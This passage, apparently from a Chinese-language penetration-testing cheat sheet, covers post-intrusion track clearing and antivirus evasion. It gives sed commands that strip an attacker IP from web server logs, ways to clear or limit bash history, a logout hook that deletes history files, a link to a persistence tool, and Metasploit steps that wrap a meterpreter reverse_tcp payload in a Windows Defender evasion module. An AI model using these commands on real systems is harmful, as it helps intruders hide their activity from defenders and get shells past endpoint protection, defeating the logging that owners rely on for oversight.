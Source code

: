 **工具**
- **Vegile**
    - https://github.com/Screetsec/Vegile.git

---

## 痕迹清理

- [开小灶:隐藏bash历史命令的小技巧](http://www.4hou.com/system/13988.html)
- [Ubuntu bash不记录history方法](https://www.cnblogs.com/sevck/p/7997739.html)

**web 日志**

如 access.log,error.log.使用 sed 进行定向清除

`sed -i -e '/192.169.1.1/d'`

**history**
```bash
history -c                          # 清除历史操作命令
```

或对 `~/.bash_history` 进行定向清除
```bash
cat /etc/profile | grep HISTSIZE    # 查看 BASH 保留历史命令的条目
```
```
vim /etc/profile

修改 HISTSIZE=5 即保留最新执行的5条命令
```

```bash
cat /etc/skel/.bash_logout          # 设置注销时删除命令记录
```

增加如下行 `rm -f $HOME/.bash_history`

这样,系统中的所有用户注销时都会删除其命令记录,如果只需要针对某个特定用户,,如 root 用户进行设置,则可只在该用户的主目录下修改 `/$HOME/.bash_history` 文件增加相同的一行即可.

---

# BypassAV

**杀软速查**
- [r00tSe7en/get_AV](https://github.com/r00tSe7en/get_AV)

**Metasploit**
```bash
use evasion/windows/windows_defender_exe
set payload windows/x64/meterpreter/reverse_tcp
set lhost
set lport
run
```
